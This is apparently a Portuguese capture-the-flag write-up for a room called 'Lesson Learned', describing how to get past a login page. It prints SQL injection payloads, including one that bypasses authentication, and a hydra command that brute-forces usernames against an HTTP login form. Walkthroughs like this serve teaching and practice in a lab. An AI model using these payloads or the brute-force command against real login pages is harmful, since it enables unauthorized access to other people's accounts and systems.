 # _**Lesson Learned**_
![](learn.jpg)

## _**Enumeração**_
Devido a natureza da sala, vamos acessar a página ```http://[ip_address]```  
Devemos passar da página de login  
Vamos primeiro tentar um SQL Injection com: ```' || '1'='1';-- -```

![](sql_failed.jpg)

Parece que vamos ter que reiniciar a máquina  
Vamos tentar de outra maneira  
Após algum tempo pensando, foi decidido tentear _brute force_, mesmo sem lista de nomes de usuários  
> ```bash
> hydra -L ../seclists/Usernames/xato-net-10-million-usernames.txt -p test [ip_address] http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
> ```
![](hydra_result.jpg)

Tentando ```martin' AND ''=''-- -```, temos:

![](login_bypass.jpg)

Temos a flag!
